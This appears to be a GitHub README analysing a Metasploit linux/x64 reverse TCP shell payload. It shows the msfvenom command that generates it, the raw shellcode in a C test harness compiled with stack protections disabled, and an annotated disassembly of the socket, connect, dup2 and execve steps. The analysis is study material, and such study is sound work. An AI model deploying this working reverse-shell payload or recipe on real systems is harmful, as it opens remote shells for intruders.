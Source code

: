 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
```
unsigned char buf[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    ```
    push 0x29   ; SYS_SOCKET
    pop rax
    cdq         ; CLEAR RDX 
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall  
    xchg   rdi,rax ; Place returned fd in rdi
    ```

2. Create struct_sockaddr

    ```
    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family 
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 # Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall
    ```

3. dup2 loop

    ```
    push   0x3 
    pop    rsi
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall

    jne 0x7fffffffdce7  ; Make sure to duplicate everything
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall
    jne    0x7fffffffdce7
    ```


4. Execve syscall .

    ```
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f
    push   rbx
    mov    rdi,rsp
    push   rdx
    push   rdi
    mov    rsi,rsp
    syscall ; execve("/bin/sh", "/bin/sh", 0);
    ```


